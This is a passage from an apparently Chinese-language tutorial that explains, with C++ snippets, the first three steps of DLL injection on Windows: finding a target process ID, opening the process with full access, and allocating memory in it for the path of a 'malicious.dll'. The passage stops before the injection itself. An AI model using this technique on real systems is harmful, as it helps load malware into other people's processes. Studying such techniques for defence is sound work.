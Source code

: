 **API 调用步骤详解**:

- 步骤 1: 定位目标进程 PID (CreateToolhelp32Snapshot, Process32First, Process32Next)
    
    通过遍历进程快照来查找指定名称 (processName) 的进程，并获取其 PID。
    
    C++
    
    ```
    // const char *processName = "target.exe"; // 目标进程名
    // DWORD processId = 0;
    
    DWORD getProcessIdByName(const char *procName) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (hSnapshot == INVALID_HANDLE_VALUE) return 0;
    
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (_stricmp(entry.szExeFile, procName) == 0) { // 比较进程名 (忽略大小写)
                    CloseHandle(hSnapshot);
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
        CloseHandle(hSnapshot);
        return 0; // 未找到
    }
    // processId = getProcessIdByName(processName);
    // if (processId == 0) { /* 错误处理 */ }
    ```
    
- 步骤 2: 打开目标进程 (OpenProcess)
    
    (与 Shellcode 注入中的步骤1类似，此处不再重复代码)
    
    C++
    
    ```
    // HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    // if (hProcess == NULL) { /* 错误处理 */ }
    ```
    
- 步骤 3: 为 DLL 路径分配内存 (VirtualAllocEx)
    
    为存储恶意 DLL 的完整路径字符串在目标进程中分配内存。
    
    C++
    
    ```
    // const char *dllLibFullPath = "C:\\Path\\To\\Your\\malicious.dll";
    // LPVOID dllPathAllocatedMemory = VirtualAllocEx(
    //     hProcess,
    //     NULL,
    //     strlen(dllLibFullPath) + 1, // +1 为空终止符
    //     MEM_RESERVE | MEM_COMMIT,
    //     PAGE_READWRITE // DLL路径不需要执行权限，可读可写即可
    // );
    // if (dllPathAllocatedMemory == NULL) { /* 错误处理 */ }
    ```
    